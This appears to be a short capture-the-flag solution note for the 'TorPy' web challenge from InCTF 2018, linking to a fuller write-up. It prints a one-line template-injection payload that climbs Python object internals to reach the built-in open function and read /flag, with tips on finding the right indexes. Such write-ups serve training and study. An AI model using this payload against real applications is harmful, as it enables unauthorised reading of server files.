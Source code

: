 # TorPy  

**Description**: where is /flag ?  

**Author**: [SpyD3r]("https://twitter.com/tarunkantg")  

**Short Solution**: {{ list(list(%27%27.__reduce__(42).__getitem__(0).__globals__.values()).__getitem__(0).values()).__getitem__(125)("/flag").read() }}  

but you have to check the indexes, because it changes with server.  
-> 1st index will be the same everytime.  
-> 2nd index should be the value of : __builtins__  
-> 3rd index should be value of : < built-in function open>  

**Detailed Write-up**: [https://spyclub.tech/2018/inctf2018-web-challenge-writeup/]("https://spyclub.tech/2018/inctf2018-web-challenge-writeup/")  


